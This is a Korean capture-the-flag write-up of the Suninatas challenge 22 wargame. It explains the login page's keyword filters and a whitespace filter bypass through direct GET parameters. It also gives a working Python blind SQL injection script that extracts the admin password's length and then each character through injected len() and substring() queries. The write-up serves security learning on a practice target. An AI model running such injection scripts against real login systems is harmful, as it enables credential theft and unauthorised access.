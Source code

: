 ```yaml
---
title: "Suninatas 22 Write up"
categories: SQLi
tags: [blindsqli, wargame]
---
```


Suninatas 22 Write-Up
---------------------

## 문제 분석

문제에 접속하면 아래와 같은 로그인 창과 필터링 되는 단어들을 확인할 수 있었습니다.
필터링 내용들을 살펴보면 여태까지 봤던 문제 중 가장 많은 것을 볼 수 있었습니다.

![Suninatas_22_Main](https://github.com/Jun-Project-LAB/Jun-Project-LAB.github.io/blob/main/_image/suninatas_22_main.png?raw=true)

문제의 풀이 조건에 대해 알 필요가 있으므로 먼저 개발자 도구를 통해 소스코드를 확인한 결과
 주석에 admin 계정으로 로그인하라는 조건이 있는 것을 찾을 수 있었습니다.

![Suninatas_22_source](https://github.com/Jun-Project-LAB/Jun-Project-LAB.github.io/blob/main/_image/suninatas_22_source.png?raw=true)

따라서 이 문제의 flag는 admin 계정의 password 혹은 로그인 할 경우 얻을 수 있는 것으로 짐작할 수 있었습니다.

또한 테스트하기 위한 계정으로 guest/guest 계정이 있다고 하여 해당 계정을 이용하여 로그인 해보았습니다.

![Suninatas_22_guest](https://github.com/Jun-Project-LAB/Jun-Project-LAB.github.io/blob/main/_image/sunintas_22_guest.png?raw=true)

사진을 보면 알 수 있듯이 OK guest라는 문구가 출력되는 것을 알 수 있었고 로그인에 성공할 경우 OK 라고 뜨는 것을 단서로 하여 blind SQL Injection을 
시도하였습니다.

* * *

## Qeury Statement 작성

SQL Injection에 주로 사용되는 keyword들이 대거 필터링 되었기에 쉽게 풀이에 접근하지 못하였습니다.
제시되어 있는 키워드 이외에도 '(Single Quote), substring과 같은 keyword도 입력하려고 할 경우 no hack이라고 출력되었기에
 해결 방법을 찾지 못하였습니다. 

Null byte 삽입과 같은 방법으로 필터링을 우회할 수 있는 몇 가지 방법을 찾기도 하였으나 이를 공격으로 연계하지를 못하였습니다.
 다른 Write-Up을 찾아본 결과 생각보다 간단한 방법으로 풀이하였는데 한 가지 이해가 되지 않은 부분은 직접 GET 형식에 맞춰 작성한 것과
 id, pw 입력란에 입력한 내용이 필터링 대상이 다른 것이었습니다. 대표적으로 id, pw란에서는 white space가 필터링 대상이었는데 GET 형식으로 
직접 url란에 입력한 경우 white space가 필터링 되지 않았기 때문입니다.

* * *

어찌되었든 해결 방법에 대해서는 알았으므로 자동화 코드의 경우 직접 작성해보았습니다. password의 길이를 알아내는 부분에서 최대 길이를 15로 잡은 것은
 html code 내에서 pw 입력란을 최대 15자로 제한하였기 때문입니다. 코드의 경우 아래와 같이 작성했습니다.

``` python
#!/usr/bin/python

import requests as req

cookies = {"ASP.NET_SessionId":"sbd2hldgbghcshskmhnubw2g", "ASPSESSIONIDSADBSAQD":"ONINCAKAHJGGDDMKBANMGNNP"}
url = "http://suninatas.com/challenge/web22/web22.asp"
maxpass = 15
length = 0
password = ""
parameter = {"pw":"haha"}

for i in range(maxpass):
    parameter['id']="admin' and len(pw)={}-- ".format(i+1)
    response = req.get(url, cookies=cookies, params=parameter)

    if response.text.find("OK") != -1:
        length = i+1
        print("Password length is {}".format(length))

for i in range(1, length+1):
    for j in range(32, 128):
        parameter['id'] = "admin' and substring(pw, {0}, 1)='{1}'--".format(i, chr(j))
        response = req.get(url, cookies=cookies, params=parameter)
        if response.text.find("OK") != -1:
            password += chr(j)

print("admin's password is " + password)
```

session의 경우 자신의 환경에 맞게 변경하여 사용하면 됩니다. 코드를 작성할 때 제대로 값이 출력되지 않아서 잘못 작성한 줄 알았었는데, 
문자를 비교하는 과정에서 이를 ' '로 묶어주지 않아서 숫자 값만 제대로 비교하고 문자 값의 경우 제대로 비교하지 못했던 오류가 있었습니다.
